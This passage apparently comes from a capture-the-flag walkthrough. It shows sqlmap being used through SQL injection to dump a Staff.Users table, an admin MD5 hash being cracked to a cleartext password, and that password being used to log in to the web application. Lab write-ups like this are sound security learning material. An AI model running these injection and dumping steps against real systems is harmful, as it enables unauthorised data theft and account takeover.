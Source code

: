 For *Staff* database:
```console
$ sqlmap -r search_form.txt --dump -D Staff -T Users      
...
[16:51:04] [INFO] fetching columns for table 'Users' in database 'Staff'
[16:51:04] [INFO] fetching entries for table 'Users' in database 'Staff'
[16:51:04] [INFO] recognized possible password hashes in column 'Password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[16:51:23] [INFO] writing hashes to a temporary file '/tmp/sqlmapr53w8u1p5379/sqlmaphashes-wm8yf7ks.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[16:51:34] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[16:51:42] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[16:51:52] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[16:51:52] [INFO] starting 2 processes 
[16:52:06] [WARNING] no clear password(s) found                                                                                                  

Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
...
```

See the last table? it contains a clear-text username and a [hashed password](https://auth0.com/blog/hashing-passwords-one-way-road-to-security/), even sqlmap recognized it as MD5.
We can use [crackstation](https://crackstation.net/) to crack this hash or use john but it seems the password is missing from any of the wordlists I tried.
The clear password is `transorbital1`.

Note:
: sqlmap can crack that password as well, you only need to mark YES once sqlmap propt if to *use common password suffixes*

Now that we have a username:password combination we can use it to login to the web application.
Once logged in as **admin** we have additional tabs and capabilities we can use. Looking around I found nothing intresting, but that "File does not exist" at the page footer looks intresting though.
